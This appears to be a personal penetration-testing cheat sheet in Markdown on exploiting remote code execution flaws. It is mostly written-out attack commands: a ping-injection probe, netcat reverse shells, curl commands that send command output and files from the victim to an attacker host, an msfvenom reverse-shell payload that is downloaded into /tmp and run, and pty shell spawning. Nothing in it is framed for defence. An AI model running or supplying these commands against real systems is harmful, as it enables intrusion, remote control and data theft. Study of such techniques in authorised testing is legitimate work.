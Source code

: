 ####  Remote code execution vulnerability
Examples of causea of remote code execution vulnerability are:
- Unrestricted file upload.
- Command execution of remote scipts.
- SQL injection when running previlaged database user.
<br>

**Blind code execution vulnerabilty(unrestricted file upload like vulnerability)**
Check by using burp with commands like `sleep+2&ok=ok` etc.or other linux commands.
For example:
`GET /script.php?c=ping+192.168.139.130+-c=5&ok=ok HTTP/1.1` and check icmp protocols in wireshark.
After this we can conclude that there is a vulnerability.
* * *
For non-interactive shell:

1. First identify constraints. We need either use tools already in the remote shell or we need to upload our tools to the web shell.
2. `echo $PATH` to see executable location.
Visit this location and see tools present in there.
Check tools are present by command `which <tool name>`.
For example, `which nc`,`which curl`,`which python`,`which wget`...
* * *
Lets check try with nc.
attacker: `nc -lvp 53`
victim: `nc <atatcker ip> -e /bin/bash`
But relying on nc in real life situation is not good.
* * *
1. curl has file transfer utility other than remote code execution.
attacker:`nc -lvp 53`
victim: `curl <http://attacker_ip>:53`
For example we can then execute `curl <http://attacker_ip>:53/'whoami'` on the web shell.
2. In some cases like `curl <http://attacker_ip>:53/'id'` have spaces in output. As this is a http request this will break its execution because of the spaces. So we can try encoding in any format like base64 and check again.	
3. remote shell:`curl <http://attacker_ip>:53/'id|base64'`
attacker shell: `echo "<encoded message>"|base64 -d`
4. We can send file by using `-T` option: `curl <http://attacker_ip>:53/file -T /etc/isue`
* * *
1. If we are interested in writing files to remote machine we need to make reverse shell for example with metasploit. 
For reverse shell payload we need three things: HTTP server on our machine, file download utility in remote machine and writable on the remote machine.
2. For starting HTTP server we can just use python build in tool:
`python -m SimpleHTTPServer 9090` try to start in /tmp or /var/tmp because these location will be always writable.
3. In the meantime setup a reverse shell payload with msfvenom.
attacker: `msfvenom -p linux/x64/shell_reverse_tcp lhost=192.168.139.130 lport=53 -f elf -o reverse53`
victim: `curl <http://attacker_ip>:9090/reverse53 -o /tmp/r`
4. `chmod +x /tmp/r` to make the uplaoded shell executable.
If we are not sure about the write privialges we can upload it back by `curl <http://attacker_ip>:9090 -T /tmp/r` and see if the file is there.
5. For running it, attacker: `nc -lvp 53`
victim: `/tmp/r`
And see if we have a reverse shell.
6. For spawning a terminal:`bash -i`, `python -c 'import pty; pty.spawn("/bin/sh")`(for this python must be installed in remote victim).